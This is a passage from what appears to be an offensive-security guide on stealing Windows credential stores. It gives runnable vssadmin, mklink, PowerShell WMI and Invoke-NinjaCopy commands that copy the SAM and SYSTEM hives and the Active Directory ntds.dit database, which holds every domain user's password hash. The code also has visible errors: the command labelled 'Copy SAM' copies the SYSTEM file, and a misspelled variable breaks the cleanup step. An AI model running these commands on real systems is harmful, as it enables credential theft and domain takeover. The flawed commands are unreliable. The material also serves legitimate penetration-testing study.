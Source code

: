 ### Volume Shadow Copy

You can perform copy of protected files using this service. You need to be Administrator.

#### Using vssadmin

vssadmin binary is only available in Windows Server versions

```bash
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

But you can do the same from **Powershell**. This is an example of **how to copy the SAM file** \(the hard drive used is "C:" and its saved to C:\users\Public\) but you can use this for copying any protected file:

```bash
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public
$voume.Delete();if($notrunning -eq 1){$service.Stop()}
```

Code from the book: [https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html](https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html)

### Invoke-NinjaCopy

Finally, you could also use the [**PS script Invoke-NinjaCopy**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) to make a copy of SAM, SYSTEM and ntds.dit.

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
```

## **Active Directory Credentials - NTDS.dit**

**The Ntds.dit file is a database that stores Active Directory data**, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.
